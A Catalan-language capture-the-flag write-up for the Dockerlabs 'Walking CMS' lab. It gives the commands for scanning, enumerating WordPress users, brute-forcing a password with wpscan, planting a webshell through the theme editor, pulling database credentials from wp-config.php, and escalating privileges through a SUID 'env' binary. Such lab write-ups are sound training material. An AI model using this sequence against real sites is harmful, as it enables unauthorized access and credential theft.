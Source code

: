 # Walking CMS

Plataforma: Dockerlabs
OS: Linux
Level: Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 5 de diciembre de 2024 21:36

### NMAP

```bash
sudo nmap -p- -sS -vvv  -n -Pn 172.17.0.2 -oG allports
```

![image.png](<imagenes/image 39.png>)

![image.png](<imagenes/image 40.png>)

Gobuster per trobar directoris :

```bash
gobuster dir -u [http://172.17.0.2](http://172.17.0.2/) -w /usr/share/wordlists/dirb/common.txt
```

![image.png](<imagenes/image 41.png>)

Es un wordpress. Enumerem usuaris :

```bash
sudo wpscan --url [http://172.17.0.2/wordpress](http://172.17.0.2/wordpress) --enumerate u
```

![image.png](<imagenes/image 42.png>)

Usuari : mario

Busquem password amb :

```bash
sudo wpscan --url [http://172.17.0.2/wordpress](http://172.17.0.2/wordpress) -P /usr/share/wordlists/rockyou.txt
```

![image.png](<imagenes/image 43.png>)

Password: l***


Entrem al wp-admin amb les credencials
entrem al editor de themes i creem un nou com a test.php amb la webshell:

![image.png](<imagenes/image 44.png>)

Ens posen a l'espera i executem la webshell:

![image.png](<imagenes/image 45.png>)

Mire fitxer wp-config.php

Database: username: wordpressuser

Data base password: t****************S

Tractament TTY:

```bash
script /dev/null -c bash
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

Busquem permisos:

```bash
find / -perm -u=s -type f 2>/dev/null
```

Explotem env:

```java
env /bin/sh -p

```

![image.png](<imagenes/image 46.png>)